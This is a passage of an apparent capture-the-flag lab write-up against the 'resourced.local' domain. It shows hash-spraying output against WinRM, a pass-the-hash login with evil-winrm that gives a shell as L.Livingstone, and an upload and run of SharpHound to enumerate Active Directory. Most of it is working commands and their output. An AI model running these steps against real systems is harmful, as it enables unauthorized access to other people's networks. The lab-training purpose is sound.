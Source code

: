 ```
WINRM       192.168.120.181 5985   RESOURCEDC       [-] resourced.local\L.Livingstone:3105e0f6af52aba8e11d19f27e487e45
WINRM       192.168.120.181 5985   RESOURCEDC       [-] resourced.local\L.Livingstone:204410cc5a7147cd52a04ddae6754b0c
WINRM       192.168.120.181 5985   RESOURCEDC       [+] resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)
```

We have a working hash for the user `L.Livingstone`. Let's use these to connect using `evil-winrm`.

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.120.181 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
...
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> whoami
resourced\l.livingstone
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> 
```

Success! We now have shell access as the user `L.Livingstone`.

## Escalation

### Local Windows Enumeration

Let's start by uploading a copy of `SharpHound.exe` and running it.

```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> upload /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
Info: Uploading /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe to C:\Users\L.Livingstone\Documents\SharpHound.exe                                                                                          

                                                             
Data: 1110696 bytes of 1110696 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> .\SharpHound.exe -c all
------------------------------------------------
Initializing SharpHound at 12:08 PM on 1/10/2022
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain RESOURCED.LOCAL using path CN=Schema,CN=Configuration,DC=resourced,DC=local
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 26 MB RAM
Enumeration finished in 00:00:01.4459832
Compressing data to .\20220110120802_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 12:08 PM on 1/10/2022! Happy Graphing!
```
